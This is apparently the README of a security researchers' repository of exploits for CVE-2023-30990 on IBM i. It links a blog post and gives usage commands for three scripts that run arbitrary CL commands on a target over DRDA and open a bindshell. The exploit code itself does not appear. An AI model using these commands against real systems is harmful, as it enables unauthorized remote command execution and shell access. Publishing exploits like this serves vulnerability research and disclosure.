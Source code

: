 # CVE-2023-30990 exploits

See our blog post for details: https://blog.silentsignal.eu/2025/09/04/Exploit-development-for-IBM-i/

The Python scripts require the ebcdic module: `pip install ebcdic`


### DRDA S38CMD method

```bash
python3 ddm.py <IP> "<CL COMMAND>"
```

### DRDA SQL method

```bash
python3 ddm-bypass-test.py <IP> "<CL COMMAND>"
```

### Simple bindshell with S38CMD method

```bash
./exploit.sh <IP>
```
